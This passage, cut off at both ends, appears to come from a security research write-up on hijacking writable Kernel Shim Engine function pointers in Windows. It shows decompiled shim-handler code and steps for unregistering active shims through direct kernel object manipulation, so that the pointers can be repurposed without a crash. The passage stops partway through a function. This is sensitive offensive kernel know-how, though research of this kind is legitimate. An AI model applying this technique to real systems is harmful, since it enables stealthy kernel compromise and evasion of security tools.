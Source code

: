 ```c
// Example snippet from ATADeviceIdShimHookDeviceControl
// ...
v11 = (*(__int64 (__fastcall **)(_QWORD, __int64, unsigned __int8 *, __int64))qword_1C007A308)(
        *(_QWORD *)(v7 + 8), // Lower Device Object
        a2,                  // IRP
        v6,                  // SRB
        a4);                 // Context
return (*(__int64 (__fastcall **)(__int64, __int64, __int64, __int64))(v11 + 8 * v8 + 32))(v7, v5, v12, v13); // v8 = MajorFunction
```
Here, `qword_1C007A308` is another writable function pointer in `.data`.

**1.3. Disabling Active Shims**

Directly hijacking these shim-related functions while the shims are actively registered and managed by the KSE can lead to system instability (Blue Screen of Death - BSOD). To prevent this, the relevant shims must be unregistered from the KSE before their handler invocation mechanisms are repurposed. This involves:
1.  Locating the internal KSE registration structure for the shim.
2.  Modifying a status field within this structure using Direct Kernel Object Manipulation (DKOM) to mark the shim as suitable for unregistration (e.g., `*(uint32_t*)(dkom_struct + 0x18) = 0;`).
3.  Calling the exported `ntoskrnl!KseUnregisterShim` function.

The following code illustrates this process:
```c
// KseEngine is a global pointer to KSE's main structure in ntoskrnl.
// Shim is a pointer to the shim structure (e.g., SrbShim in storport.sys).

uint64_t __fastcall KsepIsShimRegistered(uint64_t KseEngineAddr, uint64_t* ShimDeref0x8, uint64_t unused, uint64_t* outInternalStruct)
{
    // ... (Logic to find the internal shim registration structure by iterating KSE's list)
    // This function verifies if a shim is registered and retrieves its internal KSE structure.
    // (Original code from writeup)
    unsigned int v4; // er8
    uint64_t* outInternalStruct_1; // r11
    uint64_t* ShimDeref0x8_1; // rbx
    uint64_t KseEnginePlus0x10; // r10
    uint64_t* KseEngineDeref0x10; // rcx
    uint64_t v9; // r9
    uint64_t* v10; // rdi
    uint64_t v11; // rdx

    v4 = 0;
    outInternalStruct_1 = outInternalStruct;
    ShimDeref0x8_1 = ShimDeref0x8;
    if (!ShimDeref0x8 || !KseEngineAddr)
        return 0i64;
    KseEnginePlus0x10 = KseEngineAddr + 0x10;
    KseEngineDeref0x10 = *(uint64_t**)(KseEngineAddr + 0x10);
    while (KseEngineDeref0x10 != (uint64_t*)KseEnginePlus0x10)
    {
        v9 = (uint64_t)KseEngineDeref0x10;
        KseEngineDeref0x10 = (uint64_t*)*KseEngineDeref0x10;
        if (!(*(uint32_t*)(v9 + 0x1C) & 4)) // Check flags
        {
            v10 = *(uint64_t**)(*(uint64_t*)(v9 + 16) + 8i64); // Dereference to get to shim identifiers
            v11 = *v10 - *ShimDeref0x8_1;
            if (*v10 == *ShimDeref0x8_1)
                v11 = v10[1] - ShimDeref0x8_1[1]; // Compare both parts of the shim identifier
            if (!v11)
            {
                if (outInternalStruct_1)
```